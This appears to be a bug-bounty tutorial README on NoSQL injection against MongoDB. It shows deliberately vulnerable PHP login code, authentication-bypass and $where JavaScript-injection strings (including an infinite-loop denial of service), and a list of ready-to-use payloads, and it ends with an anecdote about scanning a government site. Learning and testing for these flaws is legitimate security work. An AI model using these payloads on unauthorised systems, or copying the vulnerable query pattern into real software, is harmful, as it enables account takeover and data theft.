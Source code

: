 # NoSQL_injection_stuff

Learn what is NoSQL injection and how to find them.

## What is NoSQL ?

When people use the term ```“NoSQL database”```, they typically use it to refer to any non-relational database. Some say the term ```“NoSQL”``` stands for ```“non SQL”``` while others say it stands for ```“not only SQL.”``` Either way, most agree that ```NoSQL databases``` are databases that store data in a format other than relational tables.

A common misconception is that ```NoSQL databases``` or non-relational databases don’t store relationship data well. ```NoSQL databases``` can store relationship data—they just store it differently than relational databases do. In fact, when compared with ```SQL databases```, many find modeling relationship data in ```NoSQL databases``` to be easier than in ```SQL databases```, because related data doesn’t have to be split between tables.

```NoSQL``` data models allow related data to be nested within a single data structure.

```NoSQL databases``` emerged in the late 2000s as the cost of storage dramatically decreased. Gone were the days of needing to create a complex, difficult-to-manage data model simply for the purposes of reducing data duplication. Developers (rather than storage) were becoming the primary cost of software development, so ```NoSQL databases``` optimized for developer productivity.

## What is NoSQL injection ?

A ```NoSQL injection``` vulnerability is an error in a ```web application``` that uses a ```NoSQL database```. This web application security issue lets a malicious party bypass authentication, extract data, modify data, or even gain complete control over the application. ```NoSQL injection``` attacks are the result of a lack of data sanitization.

## Why to learn NoSQL injection

Now most of the websites are using ```NoSQL database``` so its difficult to find ```SQL injection``` on websites so its time to upgrade to ```NoSQL injection```.

## MongoDB Injection Example in a PHP Application

To understand how a ```NoSQL``` query is constructed and how it is vulnerable to an `injection` attack, we will focus on the most popular ```NoSQL database```: `MongoDB`, and we will access it using `PHP`. Here is a simple example of a code snippet that accesses a `MongoDB` for authentication purposes.

* Vulnerable code
```
$username = $_POST['username'];
$password = $_POST['password'];
$connection = new MongoDB\Client('mongodb://localhost:27017');
if($connection) {
	$db = $connection->test;
	$users = $db->users;
	$query = array(
		"user" => $username,
		"password" => $password
	);
	$req = $users->findOne($query);
}
```

As you can see, in this example, `username` and `password` used for authentication are taken from a `POST` request and then directly used in the query. Similar to other types of `injection`, a `malicious user` may supply a `NoSQL injection payload` that tricks the database.

To perform a successful `MongoDB injection`, it is enough if the attacker supplies the following `malicious` input data as a POST request:

```
username[$eq]=admin&password[$ne]=foo
```
* NOTE: Mongodb uses NoSQL database 

The `[$ne]` query operator means not equal. Therefore, the resulting query will find the first record in which the `username` is admin and the `password` is not foo. If this code is used for authentication, the attacker is logged in as the admin user.

More operators can be used in a similar fashion, for example `[$lt]` and `[$gt]` as well as `[$regex]`. Regular expressions can even allow the attacker to enumerate all users in the above scenario by trying combinations in sequence and evaluating the result.

## Advanced Attacks and JavaScript Injections (SSJI injection)

`MongoDB` queries support a commonly used operator `$where`, which introduces possibilities of serious `NoSQL attacks` that include JavaScript objects.

For example, a developer might want to use the `$where` operator in the following fashion to access a record for a particular user:
```
$query = array('$where' => 'this.name === \''.$name.'\'');
```

In this situation, the attacker may provide the following empty string comparison trick as $name:

```'; return '' == '```

As a result, the query will become:

```"$where": "this.name === ''; return '```

And the attacker will receive the entire list of users.

Since the $where operator is actually evaluated as JavaScript code, the attacker could also pass a malicious string that includes arbitrary JavaScript, for example:

```'; while(true){}'```

## How to automate NoSQL injection

There are very less tools and resources to learn `NoSQL injection` because its new to peoples, I know two tools that will automate the exploitation of `NoSQL injection` but note that these tools can give `false positive` so if these tools find any `NoSQL injection` issue so don't report it before you check that the `injection exists or not`.

## Tools :
* NoSQLi - https://github.com/Charlie-belmer/nosqli
* NoSQLi scanner extenstion of Burp suit

`NoSQLi` is very easy to install, You can just `clone it` or can run `apt-get install nosqli` in your terminal.

But `NoSQLi scanner` is only available for `Burp suit pro users` so if you use burp pro then you can easily use this extension, First goto `Extenter tab` than `search NoSQLi scanner` now click on `install`, If you want to use this extension you can just right click on target then click on Actively scan this host after that the extension will automatically start scanning. 

## Payloads 
These are some payloads you can use to identify NoSQL injection vulnerability:
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

## How I found NoSQL injection on Dutch goverment website and got a t-shirt

Yes, I found `NoSQL injection` on dutch goverment website so lets see how I found that.

I found it very easily without `recon`, I just used burp `NoSQLI scanner extension`, Its my habit to scan the host activily using Active ++ extension before going in deep like recon, enumeration and all that stuff so as always I used active ++ and NoSQLi extension to find bugs and after waiting 1-2 hours I got some NoSQL/SSJI injection issues so I decided to check that the issue exists or not so I clicked on show response in browser and I found that the injection exists so I reported that and as a token of appreciation they gave me a t-shirt.

THE END !

